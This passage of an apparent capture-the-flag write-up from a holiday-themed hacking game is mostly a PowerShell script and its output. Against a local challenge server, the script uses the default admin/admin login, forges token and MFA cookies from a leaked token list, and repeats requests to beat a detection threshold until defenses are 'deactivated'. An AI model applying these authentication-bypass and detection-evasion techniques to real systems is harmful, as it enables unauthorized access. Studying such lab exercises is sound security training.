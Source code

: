 Fantastic! That means we can use all of the unredacted endpoints.

```powershell
# Store the credentials so that we can keep a cookie jar and reuse them to beat the "fakeout EDR threshold"
$password =  ConvertTo-SecureString "admin" -AsPlainText -Force 
$credential = New-Object System.Management.Automation.PSCredential("admin", $password)
$url = [System.Uri]"http://127.0.0.1:1225"

$content=(Invoke-WebRequest http://127.0.0.1:1225/token_overview.csv -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication -SessionVariable session).Content
$lines = $content.split()
$max = 99
$start = 2
for ($i = $start; $i -lt $max; $i++){
   $md5 = $lines[$i].split(',')[0]
   echo $md5 > test.txt
   $hash = (Get-FileHash -Algorithm SHA256 ./test.txt).Hash
        # Repeat each request to bypass the "Fakeout EDR threshold"
       for ($j = 0; $j -lt 10; $j++){
          $session.Cookies.Add($url, (New-Object System.Net.Cookie('token',$md5,"/")))
           $mfa_response =(Invoke-WebRequest http://127.0.0.1:1225/tokens/$hash -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication -WebSession $session)
       $mfa_token=$mfa_response.Links[0].href
       if ($mfa_token) {
           $session.Cookies.Add($url, (New-Object System.Net.Cookie("mfa_token",$mfa_token,"/")))
           $response = (Invoke-WebRequest http://127.0.0.1:1225/mfa_validate/$hash -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication -WebSession $session)
           if (! ($response.Content.Contains("ERROR:") || $response.Content.Contains("Setting cookie attempts"))) {
               $response
               return
           }
       }
   }
}

$response.Content
```

!!! success "WombleysProductionLineShallPrevail"
    ```
    <h1>[+] Success, defense mechanisms deactivated.</h1><br>Administrator Token supplied, You are able to control the production and deployment of the snow cannons. May the best elves win: WombleysProductionLineShallPrevail</p>
    ```

## Response

!!! quote "Piney Sappington"
    Incredible! You tackled the hard path and showed off some serious PowerShell expertise. This kind of skill is exactly what we need, especially with things heating up between the factions.

    Well done! you've demonstrated solid PowerShell skills and completed the challenge, giving us a bit of an edge. Your persistence and mastery are exactly what we need—keep up the great work!

